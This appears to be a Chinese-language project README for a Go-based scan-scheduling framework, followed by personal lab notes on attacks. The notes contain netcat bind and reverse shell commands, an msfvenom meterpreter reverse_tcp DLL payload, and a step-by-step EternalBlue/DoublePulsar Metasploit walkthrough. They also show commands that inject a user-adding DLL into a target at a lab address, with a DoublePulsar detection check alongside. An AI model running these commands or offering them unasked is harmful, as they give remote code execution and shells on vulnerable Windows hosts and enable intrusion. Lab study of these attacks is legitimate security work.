 # 项目要求
```go
扫描调度框架，建议实现如下功能:
1、扫描器一键发布（通过提供ssh地址、账号、密码，实现一键发布）
2、任务增、删、改、查，状态监控
3、扫描结果回传、展示（在调度框架上实现初步展示）
4、扫描结果与网络空间测绘平台对接，清洗、入库
```
# 一 整体设计

![](./screenshot/manager.png)

## 1 通讯逻辑
```go
通讯方式改为了中心节点向worker发送http心跳请求
work节点就是一个http的服务
中心调度系统确实也是可以分布式的
```

## 2 调度逻辑

中心节点遍历任务，抢锁后通过http请求分发任务

# 二 源码相关

## 1 静态资源的打包

所用的包
```go
Go 语言打包静态文件以及如何与Gin一起使用Go-bindata
```

安装方法
```go

go get -u github.com/jteeuwen/go-bindata/...

安装前需要先关闭go mod
go env -w GO111MODULE=off

#通过命令行加入GOBIN的PATH
export PATH=$PATH:$GOPATH/bin
#编辑启动配置文件，开机后自动加载这个路径
nano ~/.bashrc
#编辑完成后，重新加载环境变量到内存
source ~/.bashrc

```

前端修改后打包进go项目
```go
go-bindata -o=core/utils/asset/asset.go -pkg=asset web/crocodile/... sql
```

# 三 项目的安装

数据库是先要新建的   表和数据是通过代码初始化的


#
vscan -host {ip} -p {port} -json -o {res}

 apt install libpcap-dev


kscan -t {ip} -p {port} -oJ {res}



# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## udp  通讯
nc -lvvp 6666 -u -e  /bin/sh
nc -u 192.168.56.132 6666 

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  



# 代码统计
Language                     files          blank        comment           code
-------------------------------------------------------------------------------
SQL                             33             58            276          25412
Go                             151           3704           2190          21657
CSS                             26              7            378           9945
SVG                              1              0              4           4696
HTML                            17            101             12           2489
JSON                             2              0              0           1546
XML                              2             11              1            990
YAML                             2              0              0            955
INI                              5             98              0            456
JavaScript                      35             67            429            408
Bourne Shell                    16            101             16            364
TOML                             6             26            176            306
Markdown                        10            113              0            278
CSV                              1              0              0             59
make                             1             15              0             50
Protocol Buffers                 1              8              8             34
Dockerfile                       1              2              2              6
D                                2              0              0              2
-------------------------------------------------------------------------------
SUM:                           312           4311           3492          69653




# doub
启动SSH服务
命令为：
/etc/init.d/ssh start

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.133 lport=4444 -f dll -o ~/eternal11.dll


use exploit/windows/smb/eternalblue_doublepulsar


set payload payload/windows/meterpreter/reverse_tcp

set winepath /home/kali/           ----- - Writing DLL in /home/kali/eternal11.dll


  set DOUBLEPULSARPATH  /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps

  set ETERNALBLUEPATH /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps

set rhost 192.168.56.141

## nmap
nmap -p 445 <target> --script=smb-double-pulsar-backdoor



# 下载对应的MSF插件并复制到目标目录中
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
cd Eternalblue-Doublepulsar-Metasploit/
cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/

# 安装依赖
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 --fix-missing

# 创建.wine/drive_c目录，否则后续利用漏洞时会出现目录不存在错误
mkdir -p /root/.wine/drive_c

# 开启MSF并重新加载插件
msfconsole
reload_all

# 漏洞利用
use exploit/windows/smb/eternalblue_doublepulsar
set rhost 192.168.200.142
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.200.130
set PROCESSINJECT explorer.exe # 注意，需要设置PROCESSINJECT，使用默认值并没成功，改PROCESSINJECT为explorer.exe成功
run



###

第一步：
D:\Desktop\Win-RCE-eternalblue_and_eternalromantic>
D:\Desktop\Win-RCE-eternalblue_and_eternalromantic\eb.exe --targetip 192.168.56.141
数据包：eb.pcap

第二步：
D:\Desktop\Win-RCE-eternalblue_and_eternalromantic>D:\Desktop\Win-RCE-eternalblue_and_eternalromantic\dp.exe --TargetIp 192.168.56.141 --Function RunDLL --DllPayload D:\Desktop\Win-RCE-eternalblue_and_eternalromantic\useradd64.dll
数据包：dp.pcap

第三步：检测
C:\Users\Administrator>python D:\Desktop\doublepulsar-detection-script-master\detect_doublepulsar_smb.py --ip 192.168.56.141
数据包：detect.pcap


## 我的本机

.\eb.exe --targetip 192.168.56.141
 .\dp.exe --TargetIp 192.168.56.141 --Function RunDLL --DllPayload useradd64.dll
python2 .\detect_doublepulsar_smb.py --ip 192.168.56.141